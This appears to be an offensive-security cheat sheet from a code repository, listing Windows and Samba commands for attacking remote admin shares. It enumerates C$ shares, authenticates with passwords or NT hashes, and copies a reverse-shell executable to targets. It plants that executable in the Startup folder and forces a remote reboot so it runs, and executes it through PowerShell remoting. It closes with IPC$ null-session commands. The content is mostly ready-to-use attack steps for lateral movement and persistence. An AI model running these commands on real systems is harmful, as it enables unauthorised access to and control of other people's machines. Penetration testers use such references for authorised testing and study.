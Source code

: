 # Manual

## 01 - List Files and Directories

### 1.1 - Command Prompt

- List files and directories remotely

`C:\> dir \\<IP>\c$`

- List all the files and directories

`C:\> dir /s /b \\<IP>\c$ > files.txt`

### 1.2 - Powershell

- List files and directories remotely

`PS C:\> Get-ChildItem \\<IP>\c$`

- List all the files and directories

`C:\> ChildItem -Recurse \\<IP>\c$ > files.txt`

### 1.3 - Unix Shell

```
$ smbclient -U "[<domain_name>/]<username>%<password>" -L //<IP>

$ smbclient -U "[<domain_name>/]<username>" --pw-nt-hash <nt_hash> -L //<IP>
```

## 02 - Copy Files

### 2.1 - Command Prompt

#### 2.1.1 - Copy files remotely

```
C:\> copy shell.exe \\<IP>\c$\folder\shell.exe

C:\> xcopy shell.exe \\<IP>\c$\folder\shell.exe

C:\> robocopy <source> <destination> <files>

C:\> robocopy \\<IP>\c$\folder\shell.exe shell.exe
```

#### 2.1.2 - Copy reverse shell callback on `Startup` folder

```
C:\> xcopy shell.exe "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

C:\> robocopy C:\ "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup" shell.exe

C:\> shutdown /t 0 /r /m \\<IP>
```

### 2.2 - Powershell

#### 2.2.1 - Copy files remotely

- Method 1:

`PS C:\> Copy-Item shell.exe -destination \\<IP>\c$\shell.exe`

- Method 2:

Copy the callback shell and execute it via powershell cmdlet

```
PS C:\> $ip = New-PSSession -Computer <IP>

PS C:\> Copy-Item "C:\path\to\shell.exe" -Destination "C:\path\to\folder\" -ToSession $ip

PS C:\> icm -Session $ip -ScriptBlock { C:\path\to\shell.exe }
```

#### 2.2.2 - Copy reverse shell callback on `Startup` folder

```
PS C:\> Copy-Item shell.exe -destination "\\<IP>\c$\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

PS C:\> Restart-Computer -ComputerName <IP> -Force
```

## 03 - Mapping SMB Drive Network

### 3.1 - Command Prompt

```
C:\> net use Z: \\<IP>\c$

C:\> net use Z: \\<IP>\C$ /user:"<username>" "<password>"

C:\> dir Z:\

C:\> net use Z: /delete
```

### 3.2 - Powershell

`PS C:\> New-PSDrive -Name attacker-share -PSProvider FileSystem -Credential $cred \\<IP>\<share_name>`

## 04 - Manual Null Session

### 4.1 - Command Prompt

Authenticate null session with `IPC$` via net use commands to allow the user to execute any other commands remotely

```
C:\> net use \\<IP>\IPC$ /u:"<username>" "<password>"

C:\> dir \\<IP>

C:\> net view \\<IP>
```

Ignore the authentication while authenticating session

`C:\> net use \\<IP>\IPC$ /u:"<username>" "<password>" > %TEMP%\~temp3936t.tmp 2>&1`